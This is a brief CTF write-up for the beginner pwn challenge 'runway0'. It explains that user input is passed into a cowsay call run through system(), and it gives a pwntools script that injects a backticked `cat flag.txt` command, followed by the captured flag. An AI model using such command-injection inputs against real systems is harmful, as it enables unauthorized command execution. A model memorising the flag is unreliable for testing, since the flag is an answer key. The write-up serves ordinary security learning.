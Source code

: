 https://ctftime.org/event/2449

# runway0 (pwn)

If you've never done a CTF before, this runway should help!

Hint: MacOS users (on M series) will need a x86 Linux VM. Tutorial is here: pwnoh.io/utm

nc challs.pwnoh.io 13400

## Analysis

We can see that whatever we supply is inserted between two `"`s as an argument to `cowsay` and then passed to system.

This should allow us to easily run a command during the evaluation of `cowsay`'s arguments using backticks or `

## Solution

```python
#!/usr/bin/env python3

from pwn import *

#context.log_level = "debug"
p = remote("challs.pwnoh.io", 13400)

p.sendline(b"`cat flag.txt`")

p.interactive() # bctf{0v3rfl0w_th3_M00m0ry_2d310e3de286658e}
```

## Flag
`bctf{0v3rfl0w_th3_M00m0ry_2d310e3de286658e}`

smiley 2024/09/29
